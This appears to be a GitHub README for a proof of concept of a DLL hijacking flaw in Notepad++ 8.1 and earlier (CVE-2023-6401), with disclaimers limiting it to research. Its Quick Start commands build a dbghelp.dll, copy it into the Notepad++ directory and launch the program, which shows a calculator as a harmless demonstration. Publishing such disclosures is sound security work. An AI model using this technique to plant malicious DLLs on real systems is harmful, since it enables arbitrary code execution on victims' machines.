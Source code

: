 ### 免責聲明

本專案僅供教育和安全研究使用。使用者需對遵守適用法律法規承擔全部責任。

---

## English

> ⚠️ **IMPORTANT DISCLAIMER: For security research and educational purposes only**

Proof-of-concept for NotePad++ ≤ 8.1 DLL hijacking vulnerability. Execute arbitrary code by placing a malicious `dbghelp.dll` in the application directory.

### Quick Start

```bash
# Clone the project
git clone https://github.com/mekitoci/CVE-2023-6401.git

# Navigate to project directory
cd CVE-2023-6401-main

# gcc -shared -o dbghelp.dll dbghelp.c -Wall -Wl,--subsystem,windows

# Deploy to NotePad++ directory
copy dbghelp.dll "C:\Program Files\Notepad++\"

# Execute test
"C:\Program Files\Notepad++\notepad++.exe"

# Immediate cleanup
del "C:\Program Files\Notepad++\dbghelp.dll"
```

**Expected Result:** Calculator pops up + Message box displays + NotePad++ starts normally

![PoC result](./imgs/crack.png)
